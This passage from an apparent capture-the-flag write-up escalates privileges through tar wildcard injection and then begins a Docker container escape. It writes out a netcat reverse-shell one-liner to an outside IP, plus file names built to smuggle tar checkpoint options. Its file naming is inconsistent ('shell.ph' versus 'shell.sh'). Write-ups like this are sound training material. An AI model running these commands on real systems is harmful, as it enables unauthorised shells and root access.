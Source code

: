 3. Go back to the compromised machine, and create a file, such as `shell.ph`, containing the msfvenom payload:

    ```bash
    echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.3.202 9001 >/tmp/f" > shell.sh
    ```

4. Now, create a second file resembling the `--checkpoint=1` argument, which defines the point that the checkpoint is reached:

    ```bash
    touch ./--checkpoint=1
    ```

5. Finally, create another file resembling the `--checkpoint-action=exec=` argument, which defines what `ACTION` will be executed when the checkpoint is reached, pointing to our `shell.ph` script:

    ```bash
    touch ./--checkpoint-action=exec=sh shell.sh
    ```

6. Modify permissions to make the files executable:

    ```bash
    chmod 777 backup.tar shell.sh
    ```

7. Run `backup.sh` as user `michael`. Once `backup.sh` is ran, the checkpoint will be reached, and as a result our `shell.ph` will be run: 

    ```bash
    sudo -u michael /opt/backups/backup.sh
    ```

![michael-shell](michael-shell.png)

We did it 🎉! Thanks Tib3rius 🙏!

### 3.4 Container Escape

The output of the `id` command we executed before, included the group `999(docker)`. We did our first container escape at the [Dogcat](https://cspanias.github.io/posts/Dogcat-Write-Up/#35-container-escape) room, so let's try to escape again 🏃!

On searching [GTFO](https://gtfobins.github.io/gtfobins/docker/#shell) for docker exploits:

![gtfo_container_escape](container-escape-gtfo.png)

The provided command is a `docker` command that runs a Docker container using the Alpine Linux image with the intention of executing a `chroot` command inside it. Let's break down the command step by step:

1. `docker run`: This is the command to run a Docker container.

2. `-v /:/mnt`: This is a volume mapping flag that mounts the root directory (`/`) of the host system to the `/mnt` directory inside the container. This allows the container to access and manipulate the host's file system.

